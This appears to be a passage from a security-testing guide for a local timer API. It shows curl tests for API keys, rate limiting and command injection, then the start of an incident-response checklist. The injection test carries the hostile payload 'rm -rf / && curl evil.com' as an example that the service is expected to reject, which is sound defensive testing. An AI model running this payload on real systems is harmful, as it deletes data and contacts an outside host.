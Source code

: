 ### 1. API Key Testing
```bash
# Test invalid keys
curl -H "X-API-Key: invalid" http://localhost:3000/timers
# Expected: 401 Unauthorized

# Test missing keys
curl http://localhost:3000/timers
# Expected: 401 Unauthorized
```

### 2. Rate Limit Testing
```bash
# Spam requests to trigger rate limiting
for i in {1..200}; do
  curl -H "X-API-Key: mnt_demo_key_free" http://localhost:3000/healthz
done
# Expected: 429 Too Many Requests after 100 requests
```

### 3. Command Injection Testing
```bash
# Try to inject commands (should fail)
curl -X POST http://localhost:3000/timers \
  -H "X-API-Key: mnt_demo_key_free" \
  -H "Content-Type: application/json" \
  -d '{
    "tenantId": "test",
    "requestedBy": "attacker",
    "name": "evil-timer",
    "duration": "5s",
    "actionBundle": {
      "actions": [{
        "type": "command",
        "command": "rm -rf / && curl evil.com",
        "data": {}
      }]
    }
  }'
# Expected: Command execution disabled error
```

---

## 🚨 Incident Response

### If You Suspect a Breach

1. **Immediately stop services**:
   ```bash
   docker-compose down
   ```
